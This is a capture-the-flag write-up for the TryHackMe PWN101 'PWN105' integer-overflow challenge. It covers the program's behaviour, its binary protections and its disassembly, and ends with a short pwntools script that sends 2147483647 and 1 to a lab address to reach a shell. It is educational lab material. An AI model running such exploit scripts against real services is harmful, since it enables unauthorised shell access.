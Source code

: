 # **THM - PWN 101 - Integer Overflow (PWN105)**

## **Gathering information**

### **Program behaviour**

Program takes 2 integers and sums it.


![](p/1.png)


### **Binary security**

Binary seems to be well protected.


![](p/2.png)


Stack canaries are enabled, non-executable bit is set and even there is address randomization. 


## **Reversing binary**

### **Functions**


![](p/3.png)


### **Disassembling `main()`**


Below part of disassembled code is responsible for taking input from user and adding integers.


![](p/4.png)


Below part is very interesting, when the result of adding operation is negative (and entered values are positive) we jump to `0x1384` address, where we get shell.


![](p/5.png)


![](p/6.png)

## **Exploitation (Proof Of Concept)**

To obtain negative value from adding two positive values we need to overflow the interger. For example `int` type has the range [-2147483648 to 2147483647], so we can try to add 2147483647 and 1.

```python
from pwn import *

process = remote('10.10.165.139', '9005')
process.recv()
process.sendline("2147483647")
process.recv()
process.sendline("1")
process.interactive()
```


![](p/7.png)


We have successfully exploited integer overflow.




